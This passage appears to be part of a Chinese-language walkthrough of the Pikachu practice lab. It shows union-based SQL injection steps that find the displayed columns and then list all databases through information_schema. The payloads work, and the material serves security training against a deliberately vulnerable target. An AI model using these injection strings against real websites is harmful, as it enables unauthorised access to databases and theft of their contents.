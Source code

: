 **3、判断显示位**

```sql
?id=-1 union select 1,2,3 --+
```

![image-20230814212615284](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814212615284.png)

第二位和第三位为显示位

**4、获取所有数据库**



```sql
?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata --+
```

![image-20230814212735861](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814212735861.png)
